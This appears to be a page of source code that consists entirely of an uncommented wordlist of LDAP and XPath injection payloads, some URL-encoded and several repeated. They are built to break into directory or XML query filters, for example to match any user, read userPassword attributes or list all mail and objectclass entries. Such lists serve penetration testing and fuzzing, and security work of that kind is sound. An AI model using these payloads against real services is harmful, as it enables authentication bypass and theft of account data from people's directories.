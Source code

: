 ```
root*)((|userPassword=*)
super*
super*)((|userpassword=*)
super*)((|userPassword=*)
x' or name()='username' or 'x'='y
*)(&
*)(|(password=*
(admin
test)
*))%00
any
admin)(!(&(|
any))
admin))(|(|
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
!
%21
%26
%28
%29
%2A%28%7C%28mail%3D%2A%29%29
%2A%28%7C%28objectclass%3D%2A%29%29
%2A%7C
%7C
\21
\26
\28
\29
&
(
)
*
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
(*)*)
*)*
*/*
*|
/
//
//*
```